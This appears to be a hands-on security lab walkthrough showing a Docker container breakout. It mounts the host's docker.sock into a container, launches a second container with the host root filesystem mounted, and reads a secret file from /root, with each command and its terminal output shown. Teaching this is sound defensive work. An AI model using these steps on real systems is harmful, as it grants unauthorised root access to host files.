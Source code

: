 ## Docker Daemon Direct Access

###### A malicious user who gains access to `docker.sock` of host machine can gain `root` access to the host machine.

###### Docker-Socket is responsible for communication with the Docker Service. When the docker-socket is mounted on-to a container, docker containers can be launched from the running container via. the socket causing `container breakout`

##### Step 1:

* Open Terminal

![](img/Open-Terminal.png)


##### Step 2: 
  
* Run `sudo su we45` to login as a normal user.

```commandline
root@we45:~# sudo su we45
we45@we45:~$
```

##### Step 3: 
    
* Launch a container by mounting the `docker.sock` which can be found in `/var/run` .


```commandline
docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name helloworld helloworld
```

 
##### Step 4:   

* View all running containers.

```commandline
docker ps
```

```commandline
we45@we45:~$ docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED              STATUS              PORTS               NAMES
1681e86d567e        helloworld:latest   "python app.py"     About a minute ago   Up About a minute   5050/tcp            helloworld/tcp            helloworld
```
    
##### Step 5:   

* Run `docker exec -it helloworld /bin/bash` to exec into a running container.

```commandline
we45@we45:~$ docker exec -it helloworld bash
root@1681e86d567e:/apps# 
```

##### Step 6:

*  Inside the `helloworld` container, docker images and containers of the host machine can be accessed

```commandline
docker images
```

```commandline
docker ps
```

```commandline
root@1681e86d567e:/apps# docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED              STATUS              PORTS               NAMES
1681e86d567e        helloworld:latest   "python app.py"     About a minute ago   Up About a minute   5050/tcp            helloworld/tcp            helloworld
root@b412be8326b5:/apps#
```

##### Step 7

* Launch another container from the `helloworld` container and mount the root-directory.

```commandline
docker run -ti -v /:/hostFS ubuntu:16.04 /bin/bash
```

```commandline
root@1681e86d567e:/apps# docker run -ti -v /:/hostFS ubuntu:16.04 /bin/bash
root@b412be8326b5:/#
```

###### Since `docker.sock` belongs to the host machine, when a container is launched the mounted root-directory belongs to the host-machine causing `container breakout`

##### Step 8:

* Run `cd /hostFS/root/` to access the mounted host directory. Run `ls` to check the secret.txt file inside a container.

```commandline
/ # cd /hostFS/root/
/hostFS/root # 
/hostFS/root # ls
secret.txt
```
    
##### Step 9:

* Run `cat secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
secret
``` 
    
###### Note: Malicious user now has complete access to the root Filesystem of the host machine.

##### Step 10:

* Run `exit` multiple times to exit from the container(s).

```commandline
root@b412be8326b5:/hostFS/root# exit
exit
root@1681e86d567e:/apps# exit
exit
we45@we45:~$
```
    
##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```
